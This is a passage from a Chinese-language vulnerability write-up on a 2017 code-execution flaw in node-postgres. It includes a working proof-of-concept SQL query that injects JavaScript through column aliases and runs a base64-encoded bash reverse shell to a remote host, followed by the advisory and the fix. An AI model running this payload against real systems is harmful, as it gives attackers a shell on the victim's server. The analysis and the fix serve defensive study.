 **单双引号都不能正常使用，我们可以使用es6中的反引号**

**Function环境下没有require函数，不能获得child_process模块，我们可以通过使用process.mainModule.constructor._load来代替require。**

**一个fieldName只能有64位长度，所以我们通过多个fieldName拼接来完成利用**

最后构造出如下POC：

```
SELECT 1 AS "']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

发送数据包：

 [![](https://p1.ssl.qhimg.com/t01559d0792418183ab.png)](https://p1.ssl.qhimg.com/t01559d0792418183ab.png)

成功反弹shell：

 [![](https://www.leavesongs.com/media/attachment/2017/11/04/b9c3e660-56e1-4706-af86-e9c6d9aec0ae.png)](https://www.leavesongs.com/media/attachment/2017/11/04/b9c3e660-56e1-4706-af86-e9c6d9aec0ae.png)

<br>

**0x05 漏洞修复**

****

官方随后发布了漏洞通知： [https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability](https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability)   以及修复方案： [https://github.com/brianc/node-postgres/blob/884e21e/lib/result.js#L86](https://github.com/brianc/node-postgres/blob/884e21e/lib/result.js#L86) 

可见，最新版中将**fieldName.replace(/'/g, "\'")**修改为**escape(fieldName)**，而escape函数来自这个库：[https://github.com/joliss/js-string-escape](https://github.com/joliss/js-string-escape)   ，其转义了大部分可能出现问题的字符。
